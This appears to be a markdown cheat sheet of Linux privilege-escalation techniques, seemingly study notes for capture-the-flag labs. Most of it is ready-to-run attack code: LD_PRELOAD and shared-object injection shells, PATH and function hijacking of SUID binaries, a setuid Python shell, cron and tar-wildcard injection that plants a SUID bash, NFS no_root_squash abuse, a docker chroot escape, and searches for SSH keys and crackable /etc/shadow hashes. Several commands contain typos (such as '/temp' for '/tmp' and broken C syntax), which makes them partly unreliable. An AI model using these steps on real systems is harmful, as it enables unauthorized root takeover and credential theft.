

## LINUX PRIVILEGE ESCALATION


			    
## BASIC STEPS TO CHECK

1. ENUMERATION
2. KERNAL EXPLOITS
3. WEAK PASSWORDS AND FILE PERMISSIONS
4. IMPROPER SUDO PERMISSIONS
5. IMPROPER SUID PERMISSIONS
6. OTHER SUID VULNERABILITIES
7. ESCALATION USING CAPABILITIES
8. SCHEDULED TASKS
9. NFS ROOT SQUASHING
10. DOCKER

## ENUMERATION

I.For the linux privilege escalation the automated scripts are :

1. Linpeas
2. LinEnum
3. Linux-privilege-suggester
4. Linuxprivchecker

II.For sudo exploit:

the commands used ==> sudo -l

the resources ==> gifobins 

III.For the file search inside a directory we can use dirsearch tool it 
available in github:maurosoria/dirsearch

## KERNEL EXPLOIT

I.Command:
id,uname are used gather the information about the systems and
user, check the versions of the kernel,os in exploitdb like there exit
any vulnerabilities like dirty cow.

## WEAK PASSWORD AND FILE PERMISSIONS

I.Check the /etc/shadow is readable if it is readable the we can crack the
hash to gain the password.

II.check for weak file permission to exploit: sudo -l.

## IMPROPER SUDO PERMISSIONS

I.TryHackMe room : Sudo Security Bypass

if the user donot have access for the bash shell this exploit can occur
exploitdb ==> sudo 1.8.27 - Security bypass

II.For ssh key privilege escalation:
1. In command prompt type:
find / -name authorized_keys 2> /dev/null
2. In a command prompt type:
find / -name id_rsa 2> /dev/null

III.Privilege escalation using the LD_PRELOAD:

code(shell.c) :
```
#include<stdio.h>
#include<sys/types.h>
#include<stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

command to excute the above code:
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls
sudo LD_PRELOAD=/home/user/shell.so apache2

## IMPROPER SUID PERMISSIONS

I.To find the suid bit is set:
command:

	find / -type f -perm -04000 -ls 2>/dev/null

now look the output for the suid bit set and guess which is vulnerable we 
can use the gtfobins for this purposes.

## OTHER SUID VULNERABILITIES

I.Vulnerability based on the shared object injection:

	It also depenpence upon the suid bit, if the suid bit is set for 
the shared object file(.so) it may be vulnerable where an attacker exploits
the way a program loads shared libraries (.so files in Linux) to execute
arbitrary code. It is similar to DLL Injection in Windows.
	First find the suid bit that are said for the machine:
	the command

		find / -type f -perm -04000 -ls 2>/dev/null now look 
.so files

	To analyse the .so files we can use the strace comment to know what
it is doing 
	The command

		strace <file_location> 2>&1

	to look for the more easier

	strace <file_location> 2>&1 | grep -i -E "open|access|no such file"

by any usable file or content have found overwrite if the file is in user
directory with read write permissions
overwrite these with malicious code results into the privilege escalation
the code for the injection is:
filename:libcalc.c

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject(){
	system("cp /bin/bash /temp/bash && chmod +s /temp/bash && /temp/bash
-p");
}
```

the comment to run this:
gcc -shared -fPIC -o <location of .so file> <location of our file>
now we gain root access.

II.Vulnerabilities in the suid :

1. By using the suid we can gain the access to the root 
2. And the common suid dependent in the web server are the nginx 
vulnerabilitites that is the nginx is reverse proxy server and high 
performance server,the weak permission in the log file leads to the 
vulnerability and there should be suid bit in sudo simultaneously to this
work

The command for the version of the nginix is:

	dpkg -l | grep nginx

if the version is less than or equal to 1.6.2 then there exits the 
vulnerability

steps to exploit the vulnerability of nginx:

1. First look at the log files of the nginx in www-data using the command
ls -la /var/log/nginx if the any log file that runs on root and have 
execute permission leads to exploit

2. By run the vulnerability exploit file in the exploitdb the symbolic 
link is created and starting or restarting the nginx result as to the
root but suid is still same as www-data

	The command to restart :invoke-rc.d nginx rotate >/dev/null 2>&1

III.Vulnerability in the environmental variable:
Environment variable: The variable that are available system wide and are
inherited by all the spot child process and shells.
the comment to look environment variable: env

Steps:
 
1. Search for the suid bit set for the environmental variables(-env).
2. Inject the malicious code for the environmental variable, if it run a 
service then inject malicious services.
example file:/tmp/service.c
```
int main(){ setuid(0);setgid(0); system(/bin/bash),return 0;}
```

compile: gcc /temp/service.c -o /temp/service
then , export PATH=/temp:$PATH
then, <location of env>

or function:
command:
```
function /usr/sbin/services() {cp /bin/bash /tmp &&  chmod +s /tmp/bash
&& /temp/bash -p;}
```

```
export -f /usr/sbin/service
```

```
/usr/local/bin/suid-env2
```

## ESCALATION USING CAPABILITIES

I.Instead of giving a program full root privileges via setuid, Linux 
capabilities allow assigning specific privileges. These are managed via 
setcap and checked using getcap.

The getcap command in Linux is used to display file capabilities assigned 
to a binary or file.
example: 
```
getcap -r / 2>/dev/null
```

python code for making as root:

```
import os;
os.setuid(0);
os.system("/bin/bash");
```

these vulnerability used in tar,python,openssl,perl,python.

## SCHEDULED TASKS

I. Most commonly scheduled tasks are known as cron job
It is a task that executed by the root according to the conditions
command to show the cron job or crontab:

	cat /etc/crontab

resourses:
[PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings)

similar timer for executing a service or file based on timers
command to display it : systemctl list-timers --all

II.Steps to escalate the cronjob(if the file not found in first path):

command:
1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <location>
2. chmod +x <location>
3. /tmp/bash -p

III.Cron wildcards:

wildcard(*) is a replace a something,if a cronjob contains a cronwildcard
it could be vulnerable

Steps: this works on the (tar)

1. create a malicious file(ex: runme.sh)
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
2. touch <complete location from home>/--checkpoint=1
3. touch <complete location from home>/--checkpoint-action=exec=sh\runme.sh
4. /tmp/bash -p

here it replace the asteric(*) in the cron wildcards in the cronjobs

IV.other method for cronjobs(if the file is found):

Steps:

1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> <location of cron
tab file>
2. /tmp/bash -p

## NFS ROOT SQUASHING

I.The no_root_squash means it sharable and can be mount in simple words
it has root access

to find that run cat /etc/exports 

then find the no_root_squash folder

Step(run in your computer):

1. showmount -e <ip> // this shows the no_root_squash_folder
2. mkdir /tmp/mountme
3. mount -o rw,vers=2 <ip>:/tmp /tmp/mountme
4. echo 'int main() { setgid(0), setuid(0), system("/bin/bash"); return 0
;}' > /tmp/mountme/x.c
5. gcc /tmp/mountme/x.c -o /tmp/mountme/x
6. chmod +s /tmp/mountme/x
now move to virtual machine or victim computer:
7. cd /tmp
8. ./x

## DOCKER

Steps(if the user has docker permissions):

1.docker run -v /:/mnt --rm -it bash chroot /mnt sh

